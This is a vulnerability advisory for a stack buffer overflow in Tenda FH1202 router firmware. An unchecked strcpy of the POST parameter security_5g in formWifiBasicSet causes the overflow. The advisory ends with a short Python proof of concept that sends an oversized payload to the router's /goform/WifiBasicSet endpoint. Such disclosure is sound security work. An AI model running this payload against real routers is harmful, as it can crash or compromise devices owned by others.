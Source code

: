 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `src` variable receives the `security_5g` parameter from a POST request and is later assigned to the `v34` variable, which is fixed at 256 bytes. However, since the user can control the input of `security_5g`, the statement `strcpy(v34, src);` can cause a buffer overflow. The user-provided `security_5g` can exceed the capacity of the `v34` array, triggering this security vulnerability.

![image-20240319221819491](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221819491.png)

![image-20240319221740628](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221740628.png)

![image-20240319221807478](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221807478.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':payload, 
    'hideSsid':'1', 
    'ssid':'1',
    'security':'1', 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)